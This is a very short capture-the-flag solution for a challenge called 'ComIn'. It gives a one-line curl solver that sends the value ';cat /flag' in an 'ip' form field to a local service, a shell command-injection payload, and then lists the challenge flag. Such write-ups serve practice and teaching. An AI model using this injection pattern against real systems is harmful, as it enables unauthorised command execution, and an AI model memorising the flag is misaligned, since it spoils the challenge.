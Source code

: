 # ComIn

# Description

# Solver 
```sh
> curl http://127.0.0.1:15004/index.php -X POST --data "ip=;cat /flag"
```

# Flag
`agrihack{c0mm4nd_1nj3ct10n_1s_34sy_d3kkk}`
